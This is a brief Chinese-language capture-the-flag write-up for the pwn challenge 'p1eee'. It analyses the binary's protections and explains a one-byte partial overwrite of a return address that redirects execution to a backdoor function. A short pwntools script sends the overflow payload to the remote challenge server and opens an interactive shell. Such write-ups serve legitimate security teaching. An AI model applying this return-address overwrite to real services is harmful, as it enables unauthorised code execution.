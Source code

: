 # W1 p1eee

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

该程序存在后门函数，因此尝试重定向回该函数  
但是只能溢出一个字节

已知在小端计算机上数据存储应是：  
假如main函数地址为0x55555555127b，那么地址从小到大存储为  
7b 12 55 55 55 55 00 00  
那么这一个字节可以覆盖7b

反汇编后可知，后门函数地址和read函数所在函数返回地址第一个字节一致，
因此只需要变化此字节即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27047)
sh.sendline(b'0'*40 + p8(0x6c)) # addr of backdoor
sh.interactive()
```

后门函数所在地址第一字节是0x64，但是若直接使用，会导致rbp & 0xf != 0，
所以跳转到LEA处即可

Done.
